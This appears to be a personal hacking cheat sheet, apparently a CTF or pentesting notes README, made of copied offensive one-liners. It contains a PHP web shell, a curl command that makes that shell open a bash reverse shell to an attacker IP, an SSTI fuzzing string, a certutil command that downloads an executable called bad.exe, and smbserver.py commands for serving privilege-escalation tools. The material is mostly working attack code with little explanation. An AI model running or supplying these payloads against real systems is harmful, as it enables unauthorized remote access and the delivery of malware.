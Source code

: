 in here is things i have copy pasted since i have to look for them way too often, i take no credit for anything btw

### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

### SSTI Fuzzing string

stolen from hacktricks bc i use it often and it takes me forever to find it each time
```
${{<%[%'"}}%\
```

### Certutil File Download

stolen from ired.team. i forgor this one way too much aswell

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

### smberver commands

```bash

# accept specific auth
smbserver.py -smb2support <SHARENAME> <LOCALPATH> -username <USERNAME> -password <PASSWORD>
smbsever.py -smb2support POSTEXP /home/tobeatelite/ctf/tools/privesc -username tbe -password tbe

# anon access
smbserver.py <SHARENAME> <LOCALPATH>
smbserver.py POSTEXP /home/tobeatelite/ctf/tools/privesc

```
